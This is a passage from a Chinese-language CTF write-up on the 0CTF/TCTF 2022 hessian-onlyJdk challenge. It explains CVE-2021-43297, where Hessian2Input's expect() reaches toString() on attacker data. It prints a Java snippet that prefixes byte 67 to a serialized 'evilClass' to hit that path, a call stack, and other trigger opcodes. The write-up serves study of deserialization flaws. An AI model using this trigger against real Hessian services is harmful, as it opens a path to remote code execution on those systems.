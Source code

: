 title: 0CTF/TCTF 2022 hessian-onlyJdk
author: bmth
categories:
  - CTF
tags:
  - TCTF
top_img: 'https://img-blog.csdnimg.cn/f50add56ef55431a8900fc4290625c26.png'
cover: 'https://img-blog.csdnimg.cn/f50add56ef55431a8900fc4290625c26.png'
date: 2023-02-07 14:13:00
---
![](https://img-blog.csdnimg.cn/f50add56ef55431a8900fc4290625c26.png)

好久没有学习新的ctf知识点了，复现一下近期出现的一个hessian-onlyJdk
题目源码下载：[https://github.com/waderwu/My-CTF-Challenges/tree/master/0ctf-2022/hessian-onlyJdk](https://github.com/waderwu/My-CTF-Challenges/tree/master/0ctf-2022/hessian-onlyJdk)

看到环境只有hessian 4.0.38和openjdk 8u342，源码就是一个hessian2反序列化，相当于打jdk原生链
![](https://img-blog.csdnimg.cn/ad0d12ae6ff84bb7a119faf02b3d6200.png)

## 预期
我们先来学习一下触发到toString()的利用，[Apache Dubbo Hessian2 异常处理时反序列化（CVE-2021-43297）](https://paper.seebug.org/1814/)
### CVE-2021-43297 
漏洞在`com.caucho.hessian.io.Hessian2Input#expect()`这里
![](https://img-blog.csdnimg.cn/0ac14829537543129a86522281c9220a.png)

可以看到有个`readObject()`的操作，接着就是一个String和对象的拼接，很明显会调用`toString()`
并且发现在`com.caucho.hessian.io.Hessian2Input#readString()`中就有`expect()`的调用
![](https://img-blog.csdnimg.cn/2f358ea313794262bcc1b1f30d8e2e24.png)

需要default条件才会调用，我们只需要取default上面没有条件的case就行了

这里取case 67的时候调用 readObjectDefinition 方法进入readString
直接baos写进去就可以了：
```java
ByteArrayOutputStream baos = new ByteArrayOutputStream();
Hessian2Output output = new Hessian2Output(baos);
baos.write(67);
output.writeObject(evilClass);
output.flushBuffer();

ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
Hessian2Input input = new Hessian2Input(bais);
input.readObject();
```

调用栈如下：
```
expect:2880, Hessian2Input (com.caucho.hessian.io)
readString:1398, Hessian2Input (com.caucho.hessian.io)
readObjectDefinition:2180, Hessian2Input (com.caucho.hessian.io)
readObject:2122, Hessian2Input (com.caucho.hessian.io)
```
实际上触发点不止这一个：
1. case 77 调用 readtype ，进入 readInt 触发expect
2. case 79 调用 readInt 触发expect
3. case 81 调用 readInt 触发expect
